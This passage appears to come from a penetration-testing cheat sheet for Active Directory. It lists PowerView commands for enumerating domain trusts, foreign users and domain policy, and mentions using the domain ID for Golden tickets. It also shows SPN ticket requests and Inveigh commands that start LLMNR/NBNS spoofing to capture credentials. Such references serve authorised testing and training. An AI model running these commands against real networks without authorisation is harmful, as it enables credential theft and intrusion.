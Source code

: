 ```powershell

########################
# Domain Trust Functions:
########################
# Returns domain trusts for the current domain or a specified domain
Get-DomainTrust	

# Returns all forest trusts for the current forest or a specified forest
Get-ForestTrust	

# Enumerates users who are in groups outside of the user's domain
Get-DomainForeignUser	

# Enumerates groups with users outside of the group's domain and returns each foreign member
Get-DomainForeignGroupMember	

# Enumerates all trusts for the current domain and any others seen.
Get-DomainTrustMapping	
```


```powershell
# Gets the ID for the current Domain (useful later for crafting Golden tickets)
Get-DomainID

# Displays policies for the Domain and accounts, including for instance LockoutBadAccounts
Get-DomainPolicy

# Requests the Kerberos ticket for a specified Service Principal Name (SPN) account
Get-DomainSPNTicket
```


#### Credentials 

##### LLMNR/NBT-NS Poisoning with Inveigh

[See Inveigh](inveigh.md).

LLMNR & NBT-NS poisoning is possible from a Windows host as well.  Inveigh can listen to IPv4 and IPv6 and several other protocols, including `LLMNR`, DNS, `mDNS`, NBNS, `DHCPv6`, ICMPv6, `HTTP`, HTTPS, `SMB`, LDAP, `WebDAV`, and Proxy Auth.

**Powershell version**: The PowerShell version of Inveigh is the original version and is no longer updated. The tool author maintains the C# version (in the belowed section).

```
# Install the module
Import-Module .\Inveigh.ps1

# List parameters
(Get-Command Invoke-Inveigh).Parameters


# Start Inveigh with LLMNR and NBNS spoofing, and output to the console and write to a file.
Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y
```
